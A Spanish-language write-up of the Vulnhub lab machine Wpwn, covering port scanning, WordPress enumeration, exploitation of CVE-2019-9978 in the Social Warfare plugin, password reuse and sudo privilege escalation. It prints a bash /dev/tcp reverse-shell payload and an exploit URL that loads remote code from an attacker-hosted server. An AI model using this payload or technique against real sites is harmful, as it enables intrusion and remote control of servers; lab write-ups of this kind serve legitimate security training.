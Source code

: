 ```yaml
---
layout: single
title: Wpwn - Vulnhub
excerpt: "Para resolver ésta máquina, descubrimos a la hora de la enumeración Web que está corriendo un CMS WordPress el cual enumeramos, así descubriendo qué contiene el plugin Social Warfare, con una versión vulnerable a RFI sin estar auténticado, convirtiendo éste RFI a RCE, para posterior entablarnos una Reverse Shell. Una vez dentro, reutilizamos la contraseña de la DB del CMS para convertirnos en un usuario válido del sistema, y por último, como este usuario nos aprovechamos de los SUDOERS para volvernos ROOT."
date: 16/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Web Enumeration
  - WordPress Enumeration
  - WordPress Plugin Social Warfare < 3.5.3 Exploitation (RFI to RCE)
  - Password Reuse (User Pivoting)
  - Abusing sudoers
  - CVE-2019-9978
---
```

Para resolver ésta máquina, descubrimos a la hora de la enumeración Web que está corriendo un CMS WordPress el cual enumeramos, así descubriendo qué contiene el plugin Social Warfare, con una versión vulnerable a RFI sin estar auténticado, convirtiendo éste RFI a RCE, para posterior entablarnos una Reverse Shell. Una vez dentro, reutilizamos la contraseña de la DB del CMS para convertirnos en un usuario válido del sistema, y por último, como este usuario nos aprovechamos de los SUDOERS para volvernos ROOT.



# PortScan
____

```
# Nmap 7.93 scan initiated Thu Nov 16 12:17:57 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.
Nmap scan report for 192.168.204.169
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:2B:09:A1 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 16 12:18:04 2023 -- 1 IP address (1 host up) scanned in 6.65 seconds
```


# Web Enumeration
____

Hacemos una enumeración de directorios con **"GoBuster"**.
```bash
gobuster dir -u http://192.168.204.169 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

Descubriendo así un directorio existente en el servicio Web con nombre "**/wordpress**"
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116132515.png)

Es decir, qué está corriendo un **CMS** **WordPress** en el servicio web Apache del **:80**

# WordPress Enumeration
____

Echándole un vistazo al código fuente para ver plugins...
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116132740.png)

Vemos que como uno de sus **plugins** tiene el "**Social Warfare v3.5.2**" que sí indagamos sobre posibles vulnerabilidades, encontraremos la vulnerabilidad **CVE-2019-9978** qué podemos llevar a cabo un **RCE** sin estar autenticados en ésta versión de Social Warfare.

[(Click aquí para entrar al PoC del RCE en el Social Warfare v.3.5.2)](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/)

En éste caso, modificaré el payload del **PoC** con una Reverse Shell, como iremos viendo...

1. Creamos en local un "**payload.txt**".
```bash
nano payload.txt
```

Qué como **Payload** para la **Reverse Shell** tendrá este:
```bash
<pre>system('bash -c "bash -i >& /dev/tcp/192.168.x.x/PORT 0>&1"')</pre>
```

2. Nos montamos un servidor en **Python** en la ruta del Payload.
```bash
python3 -m http.server 80
```

3. Nos ponemos en escucha con el puerto que indicamos en el Payload para recibir la Shell.
```bash
nc -nlvp 443
```

5. Usamos la ruta vulnerable al **RCE** del **PoC**, para indicar nuestra IP donde tenemos el servidor montando & el nombre del payload.
```bash
website/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP_ATACANTE/PAYLOAD
```

![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116134704.png)


Y recibiríamos nuestra **Reverse Shell**.

![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116134947.png)
Ya tan sólo quedaría darle **tratamiento a la TTY**, que sino sabes darle tratamiento te recomiendo [((Leer este POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1 
_____________

Indagando en los recursos **WordPress** qué desde fuera no tenemos acceso, encontraríamos el "**wp-config.php**" qué es donde está la configuración del mismo CMS, y sí le echamos un ojo encontraríamos las credenciales de la DB.

![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135220.png)

y viendo los usuarios válidos del sistema en el **Passwd**, encontraríamos el usuario **takis**.
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135351.png)

Por ende, se me ocurre colocar ésta credencial en el usuarios takis.
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135502.png)

Logrando así entrar como **takis**, gracias a una reutilización de contraseña.


# Escalda de Privilegios #2 
____

Sí como **takis**, listamos los permisos **SUDOERS**.
```bash
sudo -l
```
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135731.png)

Podemos ejecutar cualquier comando como quién sea, es decir, podemos convertirnos en **root** tan fácil como:
```bash
sudo su
```

![](/assets/images/htb-writeup-wpwn/Pasted image 20231116135828.png)
